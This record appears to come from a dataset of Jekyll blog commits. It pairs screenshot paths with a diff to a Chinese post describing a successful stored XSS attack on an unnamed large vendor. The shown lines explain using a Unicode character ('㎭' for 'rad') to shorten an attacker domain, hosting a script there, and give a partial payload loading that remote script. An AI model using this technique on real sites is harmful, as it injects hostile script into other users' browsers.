

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md, in a window 1280 px wide and 900 px high, scrolled down 1072 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md

````diff
--- a/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
+++ b/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
@@ -59,7 +59,8 @@ published: true
 这些字符无论解析出来的英文有多长，都仅占用一个字节
 这样，注册一个域名radq.cc，无论是使用㎭q.cc还是radq.cc，都能顺利C类解析到同一源ip
 这样就好办了，不用花大价钱注册5长度域名，只需注册一个包含特殊字符的7长度的小域名就可以了
-这样我们注册了radq.cc，在该域名下挂js脚本，顺利注入
+
+注册了radq.cc，在该域名下挂js脚本，顺利注入
 payload:
 ```js
   " script=http//㎭q.cc
````
